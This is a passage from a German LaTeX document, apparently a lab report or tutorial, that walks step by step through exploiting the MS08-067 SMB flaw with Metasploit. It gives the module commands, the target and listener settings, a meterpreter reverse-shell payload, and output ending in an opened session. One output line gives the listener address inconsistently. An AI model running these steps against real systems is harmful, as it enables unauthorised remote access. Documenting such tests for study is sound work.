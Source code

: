 Metasploit wird angewiesen den gewünschten Exploit zu laden und anschließend mit
den nötigen Optionen konfiguriert:
\begin{lstlisting}[language=Metasploit]
msf > use exploit/windows/smb/ms08_067_netapi
msf  exploit(ms08_067_netapi) > set RHOST 172.16.14.40

RHOST => 172.16.14.40

msf  exploit(ms08_067_netapi) > set LHOST 172.16.20.17

LHOST => 172.16.20.17

msf  exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/reverse_tcp

PAYLOAD => windows/meterpreter/reverse_tcp
\end{lstlisting}


Die vorgenommenen Einstellungen werden überprüft:
\begin{lstlisting}[language=Metasploit]
msf  exploit(ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    172.16.14.40     yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process, none
   LHOST     172.16.20.17     yes       The listen address
   LPORT     4444             yes       The listen port

Exploit target:
   Id  Name
   --  ----
   0   Automatic Targeting
\end{lstlisting}

Der Exploit wird gestartet:
\begin{lstlisting}[language=Metasploit]
msf  exploit(ms08_067_netapi) >
msf  exploit(ms08_067_netapi) > exploit

[*] Started reverse handler on 172.16.14.40:4444
[*] Automatically detecting the target...
[*] Fingerprint: Windows 2003 - No Service Pack - lang:Unknown
[*] Selected Target: Windows 2003 SP0 Universal
[*] Attempting to trigger the vulnerability...
[*] Sending stage (752128 bytes) to 172.16.14.40
[*] Meterpreter session 1 opened (172.16.20.17:4444 -> 172.16.14.40:1028)

at 2012-07-07 11:30:14 +0200
\end{lstlisting}

